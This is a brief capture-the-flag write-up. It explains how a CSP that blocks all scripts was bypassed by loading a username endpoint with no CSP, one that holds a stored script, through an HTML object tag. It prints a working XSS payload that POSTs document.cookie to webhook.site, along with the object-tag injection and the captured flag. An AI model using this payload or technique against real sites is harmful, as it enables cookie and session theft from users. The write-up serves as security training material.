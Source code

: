 ```yaml
---
ai_date: '2025-04-27 05:24:05'
ai_summary: Exploited CSP bypass using an object element to load script for stealing
  cookie and making a POST request
ai_tags:
- csp
- xss
- csp-bypass
created: 2024-06-21T20:15
points: 202
solves: 89
tags:
- xss
- csp-bypass
updated: 2025-01-06T23:26
---
```


This page is protected by csp `default-src 'self', script-src 'none'`.

> Ignite it to steal the cookie!

After countless attempts, I've realised that no script will run basically.

But... the endpoint `/username/:id` is open and will return plain text username.
It does not have any CSP.

We can use this for our script payload.

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
```

We will then just load it via a object tag in `profile`. This is kinda like a iframe, so CSP won't apply to contents within it.

```html
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

```flag
FLAG{n0scr1p4_c4n_be_d4nger0us}
```